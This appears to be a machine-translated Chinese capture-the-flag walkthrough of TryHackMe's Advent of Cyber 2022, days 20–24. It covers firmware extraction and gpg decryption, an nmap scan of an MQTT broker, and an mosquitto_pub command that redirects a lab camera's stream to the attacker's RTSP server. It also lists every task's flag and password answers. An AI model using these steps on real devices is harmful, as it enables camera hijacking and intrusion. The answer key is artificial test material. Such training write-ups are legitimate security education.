*   固件首先从供应商的网站获得，或者从设备中提取以执行分析。
*   首先分析获得/提取的固件(通常是二进制文件)以确定其类型(裸机或基于操作系统)。
*   验证固件是加密的还是打包的。加密固件的分析更具挑战性，因为它通常需要一个棘手的解决方案，例如逆转以前的非加密固件版本或执行硬件攻击，如[侧信道攻击(SCA)](https://en.wikipedia.org/wiki/Side-channel_attack) 来获取加密密钥。
*   一旦加密的固件被解密，不同的技术和工具被用于执行基于类型的逆向工程。

> [***BinWalk***](https://github.com/ReFirmLabs/binwalk)***:****一款固件提取工具，通过搜索签名来提取任意二进制文件中的代码片段，针对多种标准二进制文件格式，如* `*zip, tar, exe, ELF,*` *等。*
> 
> *Binwalk 有一个二进制头签名数据库，根据该数据库执行签名匹配。*
> 
> *使用该工具的共同目的是提取一个文件系统，如* `*Squashfs, yaffs2, Cramfs, ext*fs, jffs2,*` *等。，它嵌入在固件二进制文件中。文件系统拥有将在设备上运行的所有应用程序代码。*

**打开机器的分割视图**

## 1.文件 firmware 2.2-encrypted . gpg 反转后的标志值是多少？

```
cd bin
binwalk -E -N firmwarev2.2-encrypted.gpg
```


```
cd ..
cd bin-unsigned/
extract-firmware.sh firmwarev1.0-unsigned
```


> *密码:Santa1010*


```
grep -ir paraphrase
cat fmk/rootfs/gpg/secret.txt
```


> *释义:圣诞老人@2022*

```
gpg — import fmk/rootfs/gpg/private.key
```


键入我们找到的**释义**


```
gpg --import fmk/rootfs/gpg/public.key 
gpg --list-secret-keys
```


一旦密钥被导入，McSkidy 使用 gpg 命令解密固件。再次通过输入命令 **cd 更改目录..**然后是 **cd 盒**

```
cd ..
cd bin
gpg firmwarev2.2-encrypted.gpg
cat ~/bin/fmk/rootfs/flag.txt
```


```
Ans: THM{WE_GOT_THE_FIRMWARE_CODE}
```

## 2.二进制固件 1.0 版 _unsigned 的释义值是多少？

```
Ans: Santa@2022
```

## 3.逆向加密固件后，能找到 rootfs 的 build 号吗？

使用下面的命令查找 rootfs 的固件

> ***确定一下，你是在 rootfs 目录下***

```
ls -lah * | grep rootfs
```


```
Ans: 2.6.31
```


# 给自己一个快乐的小摄像头


# 消息协议和中间件


> ***利用攻击箱进行攻击***

首先，让我们执行一次 Nmap 扫描

```
nmap -p- 10.10.150.215 -vv -sV -sC --min-rate 1500
```

输出:

```
┌──(cyberw1ng㉿root)-[~]
└─$ nmap -p- 10.10.150.215 -vv -sV -sC --min-rate 1500
```

```
Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org) ) at 2022-12-21 11:06 IST
Scanning 10.10.150.215 [2 ports]
Scanning 10.10.150.215 (10.10.150.215) [65535 ports]#Discovered open port 22/tcp on 10.10.150.215
#Discovered open port 80/tcp on 10.10.150.215
#Discovered open port 1883/tcp on 10.10.150.215Not shown: 65532 closed tcp ports (conn-refused)PORT     STATE SERVICE                 REASON  VERSION
22/tcp   open  ssh                     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 17e553cf2a0ebe5b6af0233dacdc07f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCv6o9FZFxN/PUlNXGXBJ0QWwpolESTvkSYxvDR9yW3p1K2KVAY4VEeqawoFSIGm3+chCvQk2q/e7FE5LA6yuXFsXEyPbN0lerQBwTVwVTTn6CCjTeEC/EUpsV+J1/LDeidajS9vBW5oXeWzysZ2fy8TH3xwlakFP/cFv9Tc5WwreH5IOi6qwPh9x3h/6wft8mNbBKczaFW9mQPEIaoMhSwKKeNJSJYF/EvJMp/TFdojKZYzeDnuYfU0n0ZWA/gHtX0MA2yJaYwTohbUxgNrFpV8Ev1iqxCI5Gethg8e9muEMSjvGF+kib3D9o78K3Dka6s76TlHy8AacJoz7DPQbIiXdGL2ZskWv+Kye+W0vqJTAxhxGQfWFCzCAPwv3PqcHHqDIXQY8dHy9MwUrK48wNON69KJFreklYtwatJdJtlJLpONtPqRHD0h6dVYx7L4GX4++E56pm6nX4IeEOsJflKPPJIDYGBl3E4+Zo5r9C6lZnE/ZOsKq+MkU1XeFe15TU=
|   256 032ef2d20c95e3d97eeca0aa7ba16cd0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIdK3mhrZdHxEouf+P+8jbtteJBj0tnC33tj74GD5/YfMY2nHXbSkW+UPQZFU8ZtZ3uK9PziLvm4YAg6ufyBhFs=
|   256 2e90c7317e62d51e89f1544597290ad6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM8v/s/JZbJOpNarVPoCrl1flxQML3GP5VXhkyy94Y67
80/tcp   open  http                    syn-ack WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date: Thu, 22 Dec 2022 05:37:24 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date: Thu, 22 Dec 2022 05:37:25 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10#1883/tcp open  mosquitto version 1.6.9 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/clients/total: 4
|     $SYS/broker/clients/active: 4
|     $SYS/broker/load/publish/received/15min: 2.03
|     $SYS/broker/load/sockets/5min: 0.88
|     $SYS/broker/load/bytes/received/1min: 276.74
|     $SYS/broker/store/messages/bytes: 180
|     $SYS/broker/publish/messages/sent: 70
|     $SYS/broker/load/connections/15min: 0.32
|     $SYS/broker/uptime: 374 seconds
|     $SYS/broker/publish/messages/received: 37
|     $SYS/broker/bytes/sent: 2735
|     $SYS/broker/load/publish/sent/15min: 4.21
|     $SYS/broker/load/bytes/sent/1min: 1482.40
|     $SYS/broker/publish/bytes/received: 740
|     $SYS/broker/heap/maximum: 57352
|     $SYS/broker/clients/connected: 4
|     $SYS/broker/load/publish/received/1min: 6.19
|     $SYS/broker/publish/bytes/sent: 897
|     $SYS/broker/load/messages/sent/1min: 42.00
|     $SYS/broker/load/connections/5min: 0.65
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/load/bytes/sent/15min: 165.49
|     $SYS/broker/store/messages/count: 39
|     $SYS/broker/subscriptions/count: 4
|     $SYS/broker/retained messages/count: 42
|     $SYS/broker/load/bytes/received/15min: 83.09
|     $SYS/broker/load/sockets/15min: 0.43
|     $SYS/broker/load/publish/sent/5min: 10.76
|     #device/init: FFISRRN3EAJUZSUVK1QB
|     $SYS/broker/load/messages/received/15min: 3.46
|     $SYS/broker/load/messages/received/5min: 7.36
|     $SYS/broker/messages/received: 63
|     $SYS/broker/messages/sent: 96
|     $SYS/broker/clients/maximum: 4
|     $SYS/broker/bytes/received: 1521
|     $SYS/broker/heap/current: 56872
|     $SYS/broker/load/bytes/received/5min: 175.57
|     $SYS/broker/load/connections/1min: 1.26
|     $SYS/broker/load/sockets/1min: 1.41
|     $SYS/broker/load/publish/sent/1min: 36.35
|     $SYS/broker/load/messages/sent/15min: 5.64
|     $SYS/broker/messages/stored: 39
|     $SYS/broker/load/messages/sent/5min: 13.84
|     $SYS/broker/load/messages/received/1min: 11.85
|     $SYS/broker/load/publish/received/5min: 4.28
|_    $SYS/broker/load/bytes/sent/5min: 426.78
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port80-TCP:V=7.93%I=7%D=12/22%Time=63A3ED14%P=x86_64-pc-linux-gnu%r(Get
SF:Request,291,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nServer:\x2
SF:0WebSockify\x20Python/3\.8\.10\r\nDate:\x20Thu,\x2022\x20Dec\x202022\x2
SF:005:37:24\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x20472\r\n\r\n<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20405
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Method\x20Not\x20A
SF:llowed\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20expla
SF:nation:\x20405\x20-\x20Specified\x20method\x20is\x20invalid\x20for\x20t
SF:his\x20resource\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(HTTPOptio
SF:ns,2B9,"HTTP/1\.1\x20501\x20Unsupported\x20method\x20\('OPTIONS'\)\r\nS
SF:erver:\x20WebSockify\x20Python/3\.8\.10\r\nDate:\x20Thu,\x2022\x20Dec\x
SF:202022\x2005:37:25\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html;charset=utf-8\r\nContent-Length:\x20500\r\n\r\n<!DOCTYPE\x20HT
SF:ML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\
SF:x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-eq
SF:uiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x
SF:20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>
SF:Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20cod
SF:e:\x20501</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Unsupport
SF:ed\x20method\x20\('OPTIONS'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p
SF:>Error\x20code\x20explanation:\x20HTTPStatus\.NOT_IMPLEMENTED\x20-\x20S
SF:erver\x20does\x20not\x20support\x20this\x20operation\.</p>\n\x20\x20\x2
SF:0\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 1.Mosquitto 在哪个港口运行？

```
Ans: 1883
```

## 2.在所有端口的脚本扫描期间，Nmap 是否枚举了设备/初始化主题？(是/否)

我突出显示了枚举设备/init 的行

> 如果看不到枚举。执行给定的命令

```
nmap -sC -sV -p- <Target IP> -vv --min-rate 1500
```

```
Ans: y
```

## 3.该设备使用的是什么 Mosquitto 版本？

```
Ans: 1.6.9
```

## 4.观看 RTSP 河可以获得什么标志？

如果你需要 mosquitto_sub，你可以通过命令安装它，但是攻击箱已经安装了 **Mosquitto 客户端**

```
sudo apt install mosquitto-clients
```


1.  我们必须订阅 device/init 主题来枚举设备并获取设备 ID


2.让我们用 docker 启动 RTSP 服务器

```
sudo docker run --rm -it --network=host aler9/rtsp-simple-server
```


```
─$ sudo docker run --rm -it --network=host aler9/rtsp-simple-server  
Unable to find image 'aler9/rtsp-simple-server:latest' locally
latest: Pulling from aler9/rtsp-simple-server
d7c47958dda1: Pull complete 
Digest: sha256:44ce06f758a74f316ae4d912706c5212af2fb4765137e119ff689c5ec327dc94
Status: Downloaded newer image for aler9/rtsp-simple-server:latest
2022/12/22 06:06:45 INF rtsp-simple-server v0.21.0
2022/12/22 06:06:45 INF [RTSP] listener opened on :8554 (TCP), :8000 (UDP/RTP), :8001 (UDP/RTCP)
2022/12/22 06:06:45 INF [RTMP] listener opened on :1935
2022/12/22 06:06:45 INF [HLS] listener opened on :8888
2022/12/22 06:06:45 INF [WebRTC] listener opened on :8889
```

3.现在使用以下命令发布有效负载

```
mosquitto_pub -h <THM-Machine-IP> -t device/<Device-ID>/cmd -m """{"cmd":"10","url":"rtsp://<Your_Machine-IP>:8554/abcdefghijk"}"""
```


4.您可以通过运行 VLC 并打开本地托管的 RTSP 服务器的服务器路径来查看发送到服务器的内容

```
vlc rtsp://127.0.0.1:8554/abcdefghijk
```


```
Ans: THM{UR_CAMERA_IS_MINE}
```


# 任务 27[第 22 天] **攻击面减少**我周围的威胁都在减少

# 攻击媒介


攻击媒介是用来攻击计算机系统或网络的工具、技术或方法。如果我们将攻击向量映射到物理世界，攻击向量将是对手使用的武器，如剑、箭、锤子等。网络安全中的攻击媒介示例的不完全列表包括以下内容:

*   钓鱼邮件；欺骗性电子邮件，通常冒充某人并要求受害者执行危及其安全的操作。
*   拒绝服务(DoS)或分布式拒绝服务(DDoS)攻击；向网站或 web 应用程序发送太多请求，以至于网站或 web 应用程序达到极限，无法再满足合法请求。
*   Web 驱动攻击；网络浏览器中的缺陷，仅仅通过访问网站就危及受害者的安全。
*   未打补丁的漏洞利用；面向互联网的基础设施(如 web 服务器或网络接口)中的缺陷，被利用来控制基础设施。

# 攻击面


攻击面是攻击受害者的表面区域，可能受到攻击媒介的影响并造成损害。继续我们的物理世界的例子，攻击面将包括一个士兵的无盔甲的身体，这是一个剑，箭，或锤子等的攻击。，会损坏。在网络安全中，攻击面通常包含以下内容:

*   用于发送和接收电子邮件的电子邮件服务器。
*   面向互联网的 web 服务器，为访问者提供网站服务。
*   人们用来连接网络的最终用户机器。
*   人类可以被操纵和欺骗，通过社会工程将网络控制权交给攻击者。

1.  遵循所附静态网站中的说明，帮助麦克斯基迪减少攻击面，抵御雪人的攻击。使用该标志作为答案来完成任务。


```
Ans: THM{4TT4CK SURF4C3 R3DUC3D}
```


# 任务 28【第 23 天】**纵深防御**任务极小可能:一天中最糟糕的一天

## 1.案例 1:圣诞老人的金库密码是多少？


```
Ans: S3cr3tV@ultPW
```

## 2.案例一:国旗是什么？


```
Ans: THM{EZ_fl@6!}
```

## 3.案例 2:圣诞老人最喜欢的东西是什么？


```
Ans: MilkAndCookies
```

## 4.案例二:圣诞老人的金库密码是多少？

单击笔记本电脑上的搜索栏，输入笔记本电脑的密码 qn7

```
MilkAndCookies
```


```
Ans: 3XtrR@_S3cr3tV@ultPW
```

## 5.案例二:国旗是什么？


```
Ans: THM{m0@r_5t3pS_n0w!}
```

## 6.案例三:行政助理最喜欢的东西是什么？


```
Ans: BanoffeePie
```

## 7.案例三:圣诞老人之前的密码是什么？

*   提醒圣诞老人更改他的笔记本电脑密码，让它更难被猜到！每个人都知道他懒惰和重复的倾向…


```
Ans: H0tCh0coL@t3_01
```

## 8.案例三:圣诞老人现在的密码是多少？

> *提示:如果圣诞老人懒得修改大密码，也不能怪他……他***超级忙！试着改变他旧密码的最后一位数，看看是否可行。**

```
*Ans: H0tCh0coL@t3_02*
```

## *8.案例 3:保险库密码的第一部分是什么？*

**

```
*Ans: N3w4nd1m*
```

## *9.案例 3:保险库密码的第二部分是什么？*

*我们已经找到了第 7 个问题的答案*

```
*Ans: Pr0v3dV@ultPW*
```

## *10.案例三:圣诞老人的金库密码是多少？*

*以上两个密码的组合*

```
*Ans: N3w4nd1mPr0v3dV@ultPW*
```

## *11.案例三:国旗是什么？*

**

*代码:2845*

```
*Ans: THM{B@d_Y3t1_1s_n@u6hty}*
```

## *12.圣诞老人的守则是什么？*

*代码在上面任务的视频的最后*

```
*Ans: 2845*
```

## *13.任务 ELFPossible:一日旗的可恶之处是什么？*

**

```
*Ans: THM{D3f3n5e_1n_D3pth_1s_k00L!!}*
```

**

# *任务 29[第 24 天] **反馈**嗬，嗬，嗬，调查的简称*

## *1.请回答[这个 5 分钟的调查](https://forms.gle/grAqhDAmE7i33drG8)，帮助我们改进。确保在点击“提交”之前获取标志！*

```
*THM{AoC2022!thank_you!}*
```

**

*啊，多好的一个月啊！当麦克斯基看着圣诞老人满载礼物的雪橇起飞时，她如释重负地叹了口气。
我们做到了！*

**

*环顾车间，她可以看到圣诞老人的足球队正在完成他们的任务。
一些人在建立额外的防御，一些人在实施新的安全策略，
还有一些人在尝试新技能(和帽子！)也是。*

**

*有些事情麦斯基迪看不到，但你必须知道。*

**

*强盗雪人已经离开了这个地区，回到了他的巢穴，暂时被击败了。*

**

*如果我们能看看他的计划室，我们会看到一个新计划的开端
，但是我们今天不要担心这个！*

**

*当麦克斯基迪回到办公室时，她看着自己的桌子，就在 24 天前，这里还放着一张看起来很邪恶的卡片。现在，那个位置被一个卷轴占据了，上面有大量的安全待办事项。*

**

*他们都努力清除尽可能多的物品，但仍有许多物品残留。
安全永无止境！*

**

*然而，随着圣诞老人在空中，她可以把“拯救圣诞节”从清单上划掉。成功！*

**

*麦克斯基迪和圣诞老人安全团队的所有精灵感谢你们今年的帮助。
他们答应 2023 年如果遇到麻烦会给你打电话！*

*感谢您的阅读！！*

*黑客快乐~*

```
*Author : Karthikeyan Nagaraj*
```

*tryhackme，TryHackMe，thm，THM，赛博 2022 来临，赛博 2022 来临，赛博 4 来临，赛博 2022 来临所有答案，赛博 2022 来临第 1 天，赛博 2022 来临第 2 天，赛博 2022 来临第 3 天，赛博 2022 来临第 4 天，赛博 2022 来临第 5 天， 赛博 2022 第 6 天，赛博 2022 第 7 天，赛博 2022 第 8 天，赛博 2022 第 9 天，赛博 2022 第 10 天，赛博 2022 第 11 天，赛博 2022 第 12 天，赛博 2022 第 13 天，赛博 2022 第 14 天，赛博 2022 第 15 天，赛博 2022 第 16 天，赛博 2022 第 11 天 赛博 2022 第 18 天，赛博 2022 第 19 天，赛博 2022 第 20 天，赛博 2022 第 21 天，赛博 2022 第 22 天，赛博 2022 第 23 天，赛博 2022 第 24 天，赛博 w1ng，karthikeyan nagaraj，karthikeyannagaraj，karthikeyan，cyberw1ng，cyberwing*

*感谢 [InfoSec 的报道](https://medium.com/u/fb5f750de97c?source=post_page-----c818cda6dc6e--------------------------------) | [赛·克里希纳·科塔帕里](https://medium.com/u/be0f09f27ea3?source=post_page-----c818cda6dc6e--------------------------------) | [阿南莎·阿拉姆扬](https://medium.com/u/6e2475a6e38a?source=post_page-----c818cda6dc6e--------------------------------)*

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**